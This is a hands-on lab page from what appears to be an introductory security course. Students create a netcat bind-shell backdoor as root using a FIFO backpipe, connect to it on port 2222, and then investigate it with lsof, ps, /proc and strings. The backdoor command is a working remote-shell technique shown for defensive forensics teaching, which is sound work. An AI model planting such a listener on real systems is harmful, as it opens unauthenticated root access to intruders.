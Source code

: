 ![image](https://github.com/user-attachments/assets/068fae26-6e8f-402f-ad69-63a4e6a1f59e)


# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running **three** different Kali terminals.

 > Terminal 1 is where the backdoor will be run.

 > Terminal 2 is where we will connect to the back door.

 > Terminal 3 is where we will be running our analysis.

***

Let's get started by opening a terminal as **Administrator**

You can do this by right clicking the icon on the desktop and selecting open...

![](attachments/OpeningKaliInstance.png)

<b>Or...</b> you can simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Once your **Kali** terminal opens, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt. We want to do this in order to have a backdoor running as root and a connection from a different user account on the system.

Next, we will need to create a **FIFO** backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

<pre>/bin/bash backpipe 0&lt;backpipe | nc -l 2222 1>backpipe</pre>

In the above command, we are creating a **Netcat listener** that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the **Netcat listener**. 

On a more basic level, this will create a backdoor listening on port 2222 of our **Linux** system.

Now, let's open another **Kali** terminal.  This terminal will connect to the backdoor we just created.  

You can do this by right clicking the icon on the desktop and selecting open...

![](attachments/OpeningKaliInstance.png)

<b>Or...</b> you can simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we will need to know the IP address of our **Linux** system:

<pre>ifconfig</pre>

![](attachments/ifconfigKaliInstance.png)

>[!NOTE]
>
>**YOUR IP WILL BE DIFFERENT**

Now, let's connect:

<pre>nc 10.10.104.64 2222</pre>

>[!NOTE]
>
>**YOUR IP WILL BE DIFFERENT**


It can be confusing to tell whether or not you are connected to the backdoor. 

Type a few commands to see if its working:

<pre>ls</pre>

<pre>whoami</pre>

![](attachments/lswhoamiKaliInstance.png)

At this point, we have created a backdoor with one terminal, and we have connected to this backdoor with another terminal.  Now, let's open yet another **Kali** terminal and use this use for the purpose of analysis.  

Let's begin by using one of the two methods used earlier to open a new **Kali** Terminal.  

You can do this by right clicking the icon on the desktop and selecting open...

![](attachments/OpeningKaliInstance.png)

<b>Or...</b> you can simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.  When we say root prompt we mean a terminal with the highest level of permission possible.  We want to be in a root prompt because looking at network connections and process information system wide requires root privileges (or the highest level of privileges).  

Let's start by looking at the network connections with **lsof**.  When we use **lsof**, we are looking at open files.  When we use the **-i** flag we are looking at the open Internet connections.  When we use the **-P** flag we are telling **lsof** to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](attachments/lsof-i-pKaliInstance.png)

Now let's dig into the **netcat process ID**.  We can do this with the lowercase **-p** switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p [PID]</pre>

>[!NOTE]
>
>**Your PID will be different!!!**

![](attachments/lsof-pKaliInstance.png)

Let's look at the full processes.  We can do this with the **ps** command. We are also adding the **a**, **u**, and **x switches**.  

* a is for all processes
* u is for sorted users
* x is for all processes using a teletype terminal

Type out this command.

<pre>ps aux</pre>

![](attachments/psauxKaliInstance.png)

Let's change directories into the **proc** directory for that **pid**.  Remember, **proc** is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

>[!NOTE]
>
>**Your PID will be different!!!**

![](attachments/procPIDKaliInstance.png)

We can see a number of interesting directories here:

<pre>ls</pre>

![](attachments/lsKaliInstance.png)

We can run the **strings** command on the executable in this directory.  When programs are created there may be usage information, mentions of system libraries, and possible code comments. We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe | less</pre>

![](attachments/strings_exelessKaliInstance.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

To reveal more information in the output, press **"enter"**.

![](attachments/netcatusageKaliInstance.png)

***                                                                 

<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/Memory/MemoryAnalysis(Volatility).md)</i></b>

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---


